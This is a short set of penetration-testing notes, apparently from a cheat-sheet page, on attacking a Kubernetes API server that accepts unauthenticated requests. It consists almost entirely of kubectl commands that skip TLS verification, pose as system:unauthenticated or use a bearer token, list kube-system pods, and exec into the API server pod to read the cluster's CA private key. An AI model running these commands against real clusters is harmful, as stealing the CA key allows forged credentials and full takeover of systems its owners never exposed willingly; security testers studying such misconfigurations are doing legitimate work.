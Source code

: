 ## Unauthenticated API Server


1. Easiest way to approach this is just kubectl. The only trick to it is that you need to give it a username of system:unauthenticated
 - kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:6443 get po -n kube-system
 - kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:6443 -n kube-system exec [APISERVERPOD] -- cat /etc/kubernetes/pki/ca.key
 - kubectl --insecure-skip-tls-verify --token=<BearerToken> -s https://[IP]:6443 -n kube-system exec [APISERVERPOD] -- cat /etc/kubernetes/pki/ca.key
